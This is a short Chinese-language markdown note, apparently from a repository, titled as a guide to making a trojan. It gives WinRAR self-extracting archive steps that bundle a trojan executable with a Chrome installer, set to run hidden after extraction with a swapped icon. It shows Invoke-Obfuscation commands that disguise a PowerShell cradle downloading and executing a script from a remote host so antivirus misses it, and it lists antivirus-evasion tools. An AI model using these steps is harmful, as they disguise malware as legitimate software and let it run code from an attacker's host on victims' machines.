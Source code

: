 # 制作木马
## vs2019修改exe图标 
[记一次拿图书馆小姐姐微信的全过程](https://mp.weixin.qq.com/s/LB_UrYMYYY7M3Ryhv8quFw)

## 打包木马和Chrome打包
1.选中Chrome安装包和 木马.exe
2.右击添加到winrar
3.General - ✔️Create SFX archive
4.Advanced - SFX options
4.1 General - C:\Users\Public
4.2 Setup - Run after extraction: C:\Users\Public\yiye1010.exe
4.3 Setup - Run before extraction: C:\Users\Public\ChromeSetup.exe
4.4 Modes - Hide all
4.5 Update - Extract and update files
5. Restorator修改图标
```bash
WinRAR a -sfx -iicond:\app.ico setup.exe

winrar a -v360 1 -sfx  # 360k分卷
WinRAR a -sfxWinCon.SFX Gift.rar
```

## Invoke-Obfuscation 制作 powershell免杀
```bash
# https://github.com/danielbohannon/Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1;Invoke-Obfuscation
Invoke-Obfuscation
set scriptblock 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"'
token\all\1
# encoding <enter> 1 <enter> ascii混淆
# encoding\1
out PowerShellCodeASCII.ps1
```

# 免杀工具
* Themida
* 掩日免杀
* [FourEye](https://github.com/lengjibo/FourEye) -  [使用](https://mp.weixin.qq.com/s/WA9AMnF6wZSEVudr0Szgkw)
* [kscan 代替fscan能免杀](https://github.com/lcvvvv/kscan)
